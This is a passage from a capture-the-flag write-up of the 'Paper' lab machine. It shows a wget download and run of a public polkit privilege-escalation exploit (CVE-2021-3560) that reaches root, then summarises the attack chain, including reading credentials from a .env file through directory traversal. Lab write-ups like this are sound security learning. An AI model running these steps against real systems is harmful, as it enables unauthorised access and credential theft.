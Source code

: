 We will find that our target is vulnerable to CVE-2021-3560.

you can use this Python script or you can use the bash script in the Auther GitHub account "It all about enum :)".

![](https://user-images.githubusercontent.com/60070427/158610542-70c00f25-7cb4-41a9-942d-4988f297a096.PNG)

In my case, I'll use the Python script above by sending it to the target machine by scp or using wget.

```bash
[dwight@paper ~]$ wget https://github.com/Almorabea/Polkit-exploit/blob/main/CVE-2021-3560.py
[dwight@paper ~]$ python3 poc.py
**************
Exploit: Privilege escalation with polkit - CVE-2021-3560
Exploit code written by Ahmad Almorabea @almorabea
Original exploit author: Kevin Backhouse
For more details check this out: https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/
**************
[+] Starting the Exploit
[+] User Created with the name of ahmed
[+] Timed out at: 0.006322452546498194
[+] Timed out at: 0.007741276567260387
[+] Exploit Completed, Your new user is 'Ahmed' just log into it like, 'su ahmed', and then 'sudo su' to root
bash: cannot set terminal process group (225477): Inappropriate ioctl for device
bash: no job control in this shell
[root@paper dwight]# cd /root
[root@paper ~]# ls
anaconda-ks.cfg  initial-setup-ks.cfg  root.txt
[root@paper ~]# cat root.txt
RootRootRootRootRootRootRootRoot
```

# [+] Conclusion

First, we start with Nmap and find that we have open ports such as 80, 22, 443. if we try to gobuster our target we won't find any useful information and we'll be stuck there for a while. then I try Nikto to enum our target and I found office.paper the domain. and it's powered by WordPress so we'll scan it using wpscan and we'll get that our target using an outdated version that has a known exploit on the exploit database. then we get the hidden content of this blog and it helps us to reach the recyclops bot we use its functionality to gain more information from the server using directory traversal. to get the username and password from .env the file. and use this data to connect via SSH and scan our target using linpeas and get that our target is vulnerable to known CVE PolKit and we use this exploit to gain root access and submit the flag.

# [+] What i have learned from this machine?

- Try harder in the Enumeration stage.
- Take notes and save your scan results.
- If you are stuck read Machine forum for some help and hints such as:
